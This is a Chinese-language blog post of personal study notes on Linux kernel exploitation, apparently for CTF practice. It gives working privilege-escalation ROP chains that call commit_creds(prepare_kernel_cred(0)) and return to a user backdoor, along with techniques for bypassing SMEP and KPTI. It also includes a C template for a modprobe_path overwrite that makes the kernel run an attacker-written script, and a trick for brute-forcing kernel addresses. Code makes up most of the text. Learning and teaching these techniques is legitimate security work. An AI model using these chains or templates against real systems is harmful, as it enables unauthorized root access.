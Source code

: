 ```yaml
---
title: Linux Kernel Exploitation Tricks
date: 2024-09-19 10:54:10
tags: [Linux Kernel, 笔记]
categories: 
    - 笔记
---
```


跟着H0pe师傅学的[Kernel-Pwn](https://h0pe-ay.github.io/kernel-pwn/)，记录一下防忘

# 绕过SEMP
## 修改RC4
开启SMEP保护实际是将CR4寄存器的第20比特位置为1，native_write_cr4(size_t new_cr4)函数可以设置cr4寄存器的值
该方法在某次patch后不可用
## ROP
找Gadgets执行commit_creds(prepare_kernel_cred(0))然后swapgs，iretq返回用户态。
ROP Chain :
```C
    unsigned long payload[256];
    payload[index++] = canary;
    payload[index++] = 0;
    payload[index++] = 0;
    payload[index++] = 0;
    payload[index++] = 0xffffffff81006370; //pop_rdi_ret
    payload[index++] = 0;
    payload[index++] = 0xffffffff814c67f0; //prepare_kernel_cred
    payload[index++] = 0xffffffff8150b97e; //pop_rsi_ret
    payload[index++] = 0;
    payload[index++] = 0xffffffff81006370; //pop_rdi_ret
    payload[index++] = 1;
    payload[index++] = 0xffffffff818c6b35; //add rsi, 1; cmp rsi, rdi; jne 0xac6b30; pop rbp; ret;
    payload[index++] = 0;
    payload[index++] = 0xffffffff8166fea3; //mov rdi, rax; jne 0x86fe73; pop rbx; pop rbp; ret;
    payload[index++] = 0;
    payload[index++] = 0;
    payload[index++] = 0xffffffff814c6410; //commit_creds;
    payload[index++] = 0xffffffff8100a55f; //swapgs; pop rbp; ret;
    payload[index++] = 0;
    payload[index++] = 0xffffffff814381cb; //iretq; pop rbp; ret;
    payload[index++] = (unsigned long)backdoor;
    payload[index++] = user_cs;
    payload[index++] = user_rflags;
    payload[index++] = user_sp;
    payload[index++] = user_ss;
```
## 栈迁移到mmap后ROP
通过pop rbp; ret; mov rsp, rbp; pop rbp; ret;这样的Gadgets将rsp设置为mmap开辟的地址，mmap内放ROP Chain。

# 绕过KPTI
KPTI将用户页和内核页隔离，内核页找不到用户页，反之同样。上述利用方法在iretq的时候都会用到到用户的backdoor地址，开启KPTI后内核就找不到这个地址了。
## 通过异常处理
注册一个异常处理的函数去捕获SIGSEGV信号，在捕获到该信号时执行异常处理函数，可自定义为system("/bin/sh")
```C
signal(SIGSEGV, backdoor);
```
## 通过swapgs_restore_regs_and_return_to_usermode
CR3用于存储页目录表（Page Directory Table）的物理地址。每个进程的CR3独立，内核与用户态进程都有独立的CR3，swapgs_restore_regs_and_return_to_usermode函数可以将CR3设置为用户态的。swapgs_restore_regs_and_return_to_usermode函数内部存在swapgs和iretq，只要将栈布置好就可以一把梭。
ROP Chain：
```C
	payload[index++] = canary;
	payload[index++] = 0;
	payload[index++] = 0;
	payload[index++] = 0;
	payload[index++] = 0xffffffff81006370; //pop_rdi_ret
	payload[index++] = 0;
	payload[index++] = 0xffffffff814c67f0; //prepare_kernel_cred
	payload[index++] = 0xffffffff8150b97e; //pop_rsi_ret
	payload[index++] = 0;
	payload[index++] = 0xffffffff81006370; //pop_rdi_ret
	payload[index++] = 1;
	payload[index++] = 0xffffffff818c6b35; //add rsi, 1; cmp rsi, rdi; jne 0xac6b30; pop rbp; ret; 
	payload[index++] = 0;
	payload[index++] = 0xffffffff8166fea3; //mov rdi, rax; jne 0x86fe73; pop rbx; pop rbp; ret; 
	payload[index++] = 0;
	payload[index++] = 0;
	payload[index++] = 0xffffffff814c6410; //commit_creds;
	payload[index++] = 0xffffffff81200f10 + 22; //swapgs_restore_regs_and_return_to_usermode + 22;mov    rdi,rsp;
	payload[index++] = 0;
	payload[index++] = 0;
	payload[index++] = (unsigned long)backdoor;
	payload[index++] = user_cs;
	payload[index++] = user_rflags;
	payload[index++] = user_sp;
	payload[index++] = user_ss;
```
swapgs_restore_regs_and_return_to_usermode + 22是为了跳过函数前面的一堆pop。


# modprobe_path

运行带有错误文件头的程序内核会执行modprobe_path处的文件，改写modprobe_path可导致执行任意文件
模板：
```C
#include <stdio.h>
#include <stdlib.h>
unsigned long modprobe_path = 0xffffffff00000000;
void setup()
{
    system("echo -ne '#!/bin/sh\ncat /flag.txt > /tmp/flag' > /tmp/p");
    system("chmod a+x /tmp/p");
    system("echo -ne '\xff\xff\xff\xff' > /tmp/exec");
    system("chmod a+x /tmp/exec");
}

void getflag()
{
    system("/tmp/exec ; cat /tmp/flag");
}

int main()
{
    setup();
    syscall(548, modprobe_path, "/tmp/p");          // 任意地址写
    getflag();
}
```

# copy_user_generic_unrolled

copy_user_generic_unrolled(to, from, 8)读取/写入失败时，其返回的是读取/写入失败的字节数，而成功时则返回 0，可以利用该特性爆破内核地址。